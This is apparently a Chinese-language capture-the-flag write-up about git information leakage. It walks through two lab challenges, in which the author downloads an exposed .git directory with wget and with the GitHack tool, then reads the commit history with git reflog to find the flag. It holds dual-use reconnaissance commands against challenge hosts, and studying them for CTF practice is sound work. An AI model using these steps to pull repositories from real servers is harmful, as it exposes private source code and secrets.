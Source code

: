 ## 信息泄露

### git信息泄露

#### 前言

本来是不想专门为信息泄露写一个wp的，觉得大型比赛可能不会有这种题目，但偶然间完整的做了一个git泄露题目，实在觉得有意思，就整理一个git信息泄露的题吧

#### [BUGKU]source

进入页面，什么都没有，扫下后台发现git
利用**ubuntu**的` wget -r http://114.67.175.224:14802/.git/`得到
下载的默认目录在当前用户的文件夹里面

```shell
xiaolei@xl-pc:~/114.67.175.224:14802$ cd /home/xiaolei
xiaolei@xl-pc:~$ ls
114.67.175.224:14802
xiaolei@xl-pc:~$ cd 114.67.175.224\:14802/
```

然后执行命令`git reflog` 就是看历史日志的命令，可以看各个版本做了哪些改动

```sh
xiaolei@xl-pc:~/114.67.175.224:14802$ git reflog
d256328 (HEAD -> master) HEAD@{0}: reset: moving to d25632
13ce8d0 HEAD@{1}: commit: flag is here?
fdce35e HEAD@{2}: reset: moving to fdce35e
e0b8e8e HEAD@{3}: reset: moving to e0b8e
40c6d51 HEAD@{4}: commit: flag is here?
fdce35e HEAD@{5}: commit: flag is here?
d256328 (HEAD -> master) HEAD@{6}: commit: flag is here?
e0b8e8e HEAD@{7}: commit (initial): this is index.html
```

接下来就是一个个看文件，最终在`40c6d51`中发现flag

![image-20220722221339620](D:\Typora\note\CTF\web\challenge.assets\image-20220722221339620.png)



#### [ctfhub]Git泄露/Log

弄环境和工具，极限最后30秒填完flag...
进入题目，经典的`Where is flag?`
直接去`.git`吧，结果发现`403 Forbidden`，`wget`肯定不能用了，但是`GitHack`还是能用的
然后先安装了lijiejie的`GitHack`，结果无论如何都扫不出来
只能换`BugScanTeam`的`GitHack`，但是这个是要`python2`环境的，于是又安装了`python2`
(不得不说，linux是真好用，随便安装不同版本的python，直接一句`sudo apt install python2`就完事了)
然后进目录

```
 python2 GitHack.py -u http://challenge-52bd938862064249.sandbox.ctfhub.com:10800/.git/
 进入下载出来的目录(在dist目录里面)
 然后就是 git reflog   git show 找flag了
```
